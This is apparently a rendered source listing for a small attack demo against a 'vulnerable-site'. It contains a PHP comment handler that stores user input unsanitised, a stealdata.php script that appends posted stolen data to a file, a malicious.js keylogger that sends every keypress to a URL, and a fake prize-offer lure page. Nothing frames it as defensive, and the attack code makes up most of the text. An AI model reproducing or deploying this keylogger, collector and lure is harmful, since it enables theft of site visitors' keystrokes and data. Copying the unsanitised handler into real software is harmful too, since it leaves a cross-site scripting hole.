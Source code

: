 #### `comment.php`

```php
<?php
if ($_SERVER['REQUEST_METHOD'] == 'POST' && !empty($_POST['comment'])) {
    $comment = $_POST['comment'];
    $data = json_decode(file_get_contents('comments.json'), true);
    $data['comments'][] = $comment;
    file_put_contents('comments.json', json_encode($data));
    header('Location: index.html');
} else {
    header('Location: index.html');
}
?>
```

#### `comments.json`

```json
{
    "comments": []
}
```

#### `stealdata.php`

```php
<?php
if ($_SERVER['REQUEST_METHOD'] == 'POST' && !empty($_POST['data'])) {
    $stolenData = $_POST['data'];
    file_put_contents('stolen_data.txt', $stolenData . "\n", FILE_APPEND);
}
?>
```

#### `malicious.js`

```javascript
document.onkeypress = function(e) {
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://localhost/vulnerable-site/keystroke?key=' + e.key, true);
    xhr.send();
};
```

#### `offer.html`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Exclusive Offer</title>
</head>
<body>
    <h1>Congratulations!</h1>
    <p>You have won an exclusive offer! Click <a href="http://localhost/vulnerable-site">here</a> to go back.</p>
</body>
</html>
```
